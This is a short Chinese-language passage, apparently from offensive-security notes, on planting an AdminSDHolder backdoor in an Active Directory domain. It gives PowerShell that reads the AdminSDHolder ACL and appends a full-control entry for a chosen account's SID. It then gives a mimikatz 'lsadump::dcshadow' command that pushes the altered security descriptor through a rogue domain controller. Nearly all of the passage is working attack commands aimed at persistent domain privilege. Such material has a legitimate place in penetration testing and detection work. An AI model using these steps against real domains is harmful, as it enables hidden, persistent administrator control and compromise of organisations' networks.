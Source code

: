 

### 添加AdminSDHolder后门

AdminSDHolder ACL存储在`nTSecurityDescriptor`属性中，通过DCshadow修改此属性，以维持域内权限

![image-20201226191708702](/assets/img/image-20201226191708702.png)





**获取当前AdminSDHolder ACL**

```
$AdminSDHolder = [adsi]'LDAP://CN=AdminSDHolder,CN=System,DC=ring2,DC=com'
$SDDL = $AdminSDHolder.ObjectSecurity.Sddl 
```

**修改AdminSDHolder ACL**

```
$UserToAdd = [adsi]'LDAP://CN=WIN10,CN=Users,DC=ring2,DC=com'
$UserSid  = New-Object System.Security.Principal.SecurityIdentifier($UserToAdd.objectSid[0], 0) 
$NewSDDL = $SDDL + "(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;" + $UserSid.Value + ")" 
```

**使用DCShadow推送修改**

```
.mimikatz.exe "lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=ring2,DC=com /attribute:ntsecuritydescriptor /value:[NEW SDDL FROM ABOVE]” 
```


